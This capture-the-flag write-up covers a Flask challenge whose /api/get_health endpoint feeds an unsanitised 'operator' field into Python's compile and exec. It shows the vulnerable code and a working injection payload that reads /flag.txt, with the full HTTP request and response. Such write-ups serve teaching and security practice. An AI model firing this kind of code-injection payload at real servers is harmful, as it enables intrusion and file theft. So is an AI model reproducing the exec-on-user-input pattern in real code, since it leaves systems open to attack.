



# Evaluation Deck

Difficulty:: #easy

## Introduction
The box is a flask web app who has an endpoint done for perform a matematical operation. But  one of the parameters is vulnerable to **code injection**. So you can inject python code, in this case to retrieve the flag.


## Target data
- `Spawn Docker`: `167.71.135.137:32648` 
- `Source Code`: `web_evaluation_deck.zip`

## Challenge Description
*A powerful demon has sent one of his ghost generals into our world to ruin the fun of Halloween. The ghost can only be defeated by luck. Are you lucky enough to draw the right cards to defeat him and save this Halloween?*

## Enumeration

```
http://167.71.135.137:32648/
```


First download the source code and identify a flask app, with two  [`blueprints`](https://flask.palletsprojects.com/en/2.2.x/api/#flask.Blueprint) (that is a way to organize the endpoints), group them according to how ther functions are related. So here all endpoinst will be in `web_evaluation_deck/challenge/application/blueprints/routes.py`.

```shell
magor$ tree web_evaluation_deck
web_evaluation_deck
├── Dockerfile
├── build-docker.sh
├── challenge
│   ├── application
│   │   ├── blueprints
│   │   │   └── routes.py
│   │   ├── main.py
│   │   ├── static
│   │   │   ├── css
│   │   │   │   ├── card.css
│   │   │   │   ├── game.css
│   │   │   │   └── index.css
│   │   │   ├── images
│   │   │   │   ├── alive.gif
│   │   │   │   ├── bottom-circle.png
│   │   │   │   ├── ...SNIP...
│   │   │   │   └── dead.gif
│   │   │   └── js
│   │   │       ├── card.js
│   │   │       ├── jquery-migrate-1.2.1.js
│   │   │       ├── jquery.min.js
│   │   │       └── ui.js
│   │   ├── templates
│   │   │   └── index.html
│   │   └── util.py
│   └── run.py
├── config
│   └── supervisord.conf
└── flag.txt
```
 
There are two collections of endpoints. One to the `web` app, and other to the `api`. 
The interesting one is the `/api/get_health` endpoint:
```python
# web_evaluation_deck/challenge/application/blueprints/routes.py
# ...SNIP...
@api.route('/get_health', methods=['POST'])
def count():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()

    current_health = data.get('current_health')
    attack_power = data.get('attack_power')
    operator = data.get('operator')
    
 ➊  if not current_health or not attack_power or not operator:
        return response('All fields are required!'), 400

    result = {}
    try:
      ➋ code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
      ➌ exec(code, result)
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500
```

The post requests must contain the `current_health`, `attack_power` and `operator` ➊ and the interseting part is that use the built-in function [`compile`](https://docs.python.org/3/library/functions.html#compile) ➋ and [`exec`](https://docs.python.org/3/library/functions.html#exec)➌. In summary, we can execute python code that was compile. and we controle the 3 inputs , althought the `current_healt` and `attack_power` are wrapped with the `int()` function, so only numbers can be there. But, `operator` can be anything we want, it has not sanitazing. And consider that we can execute multiples python lines using `;` I can make the payload:

```python
# ideal operator parameter
result = 6 + 7

# injected code in operator parameter
result = 6 ; result = 'testing' # 7
```

>The `;`  to indicate a new line and  the `#`  to comment are the core to inject new code. To have returned value, its necesary stored the data inside `result`.


## Foothold

To test it, we can use the [Burpsuit communiti edition]() proxy to intercept the post request when click a card.  and send it to the Burpsuit repeater to play with it. First that all I check the normal function.



Now write the payload `; result = 'testing' #` in `operator` key and look that now return `testing`:



And now, I only have to check the `DockerFile` to identify that the flag file is stored in `/flag.txt`, so the payload to read the file would be:

```json
"operator": "; result = open('/flag.txt').read() #"
```

```http
POST /api/get_health HTTP/1.1
Host: 167.71.135.137:32648
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: */*
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://167.71.135.137:32648/
Content-Type: application/json
Content-Length: 104
Origin: http://167.71.135.137:32648
DNT: 1
Connection: close
Sec-GPC: 1

{"current_health":"100","attack_power":"22","operator":"+ 5 ; result = open('/flag.txt', 'r').read() #"}
```

```http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.8.15
Date: Sat, 22 Oct 2022 13:27:03 GMT
Content-Type: application/json
Content-Length: 47
Connection: close

{"message":"HTB{xxxxxxxxxxxxxxxxxxxxxxxxxxx}"}
```


